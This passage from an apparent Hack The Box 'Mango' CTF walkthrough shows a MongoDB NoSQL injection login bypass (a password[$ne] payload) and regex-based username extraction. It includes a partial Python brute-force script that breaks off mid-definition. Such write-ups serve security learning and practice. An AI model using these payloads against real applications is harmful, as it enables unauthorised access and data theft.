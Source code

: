 ![image.png](/images/mango/image4.png)
It is a search engine. When I tried searching, it didn’t return anything. The page just refreshes.

But the subdomain that we found in nmap gives us the login page on http website.

![image.png](/images/mango/image5.png)
Let’s intercept the request using Burp and examine the login request.

From the machine info, we found that the machine is vulnerable to NoSQL injection. So let's try a NoSQL injection attack such as a MongoDB authentication bypass, MongoDB uses the $ne (not equal) operator to compare values. 

```
username=admin&password[$ne]=tshering&login=login
```

Sending a request with the parameter password[$ne]=tshering would result in the query:

```sql
db.users.find({ username: "admin", password: { $ne : "admin" } });
```

This returns true because the password for admin is not equal to admin, which bypasses the
login successfully.

![image.png](/images/mango/image6.png)
It returns the location home.php, so I forward the request and we are redirect to home.php

![image.png](/images/mango/image7.png)
The website is currently under Under plantation. The page doesn’t give any information. There is no other directories also. Now I got struck so i checked the walkthrough. 

It is given that we can attempt to exfiltrate data from the Mongo database using the $regex operator. The $regex operator can be used to find data using regular expressions. 

For example, the following query will search for usernames matching the regex a.* , which matches any username containing an a .

```sql
db.users.find({ username: { $regex : "a.*", password: { $ne : "admin" } });
```

![image.png](/images/mango/image8.png)
In the response it return 302 found which means there is a username that contain letter a in it. With this logic, I am going to write a python code to find all the letter of username.

### Exploitation

```python
from requests import post
from string import ascii_lowercase

url = 'http://staging-order.mango.htb/'

def sendPayload():    
	for char in ascii_lowercase:        
		regex = '{}.*'.format(char)        
		data = {             
				'username[$regex]': regex,             
				'password[$ne]': 'password',             
				'login': 'login'         
		}        
		response = post(url, data=data, allow_redirects=False)        
		if response.status_code == 302:            
				print("Found valid letter: {}".format(char))
def getUser():    
	sendPayload()
if __name__ == '__main__':    
```